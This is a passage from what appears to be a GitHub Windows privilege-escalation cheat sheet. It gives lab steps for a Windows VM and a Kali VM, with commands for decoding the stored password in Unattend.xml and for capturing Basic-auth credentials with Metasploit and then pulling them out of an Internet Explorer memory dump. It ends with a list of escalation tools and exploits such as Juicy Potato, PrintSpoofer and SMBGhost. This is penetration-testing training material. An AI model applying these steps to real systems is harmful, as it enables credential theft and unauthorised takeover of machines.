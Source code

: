 ## Configuration Files
### Exploitation
Windows VM
1. Open command prompt and type: notepad C:\Windows\Panther\Unattend.xml
2.  Scroll down to the "Password" property and copy the base64 string that is confined between the "Value" tags underneath it.

Kali VM
1. In a terminal, type: echo [copied base64] | base64 -d
2. Notice the cleartext password

---
## Memory
### Exploitation
Kali VM
1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use auxiliary/server/capture/http_basic
3. In Metasploit (msf > prompt) type: set uripath x
4. In Metasploit (msf > prompt) type: run

Windows VM
1. Open Internet Explorer and browse to: http://[Kali VM IP Address]/x
2. Open command prompt and type: taskmgr
3. In  Windows Task Manager, right-click on the “iexplore.exe” in the "Image  Name" columnand select “Create Dump File” from the popup menu.
4. Copy the generated file, iexplore.DMP, to the Kali VM.

Kali VM
1. Place 'iexplore.DMP' on the desktop.
2. Open command prompt and type: strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"
3. Select the Copy the Base64 encoded string.
4. In command prompt type: echo -ne [Base64 String] | base64 -d
5. Notice the credentials in the output.

---
## Stuff
- PowerUp Misconfiguration Abuse
- Powerless (bat version OSCP prepair)
- BeRoot General Priv Esc Enumeration Tool
- Privesc General Priv Esc Enumeration Tool
- FullPowers Restore A Service Account's Privileges
- Juicy Potato Abuse SeImpersonate or SeAssignPrimaryToken Privileges for System Impersonation, warning Works only until Windows Server 2016 and Windows 10 until patch 1803
- Lovely Potato Automated Juicy Potato, warning Works only until Windows Server 2016 and Windows 10 until patch 1803
- PrintSpoofer Exploit the PrinterBug for System Impersonation
- Pray Works for Windows Server 2019 and Windows 10
- RoguePotato Upgraded Juicy Potato
- Pray Works for Windows Server 2019 and Windows 10
- Abusing Token Privileges
- SMBGhost CVE-2020-0796

[<- BACK TO MAIN MENU ->](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/README.md)
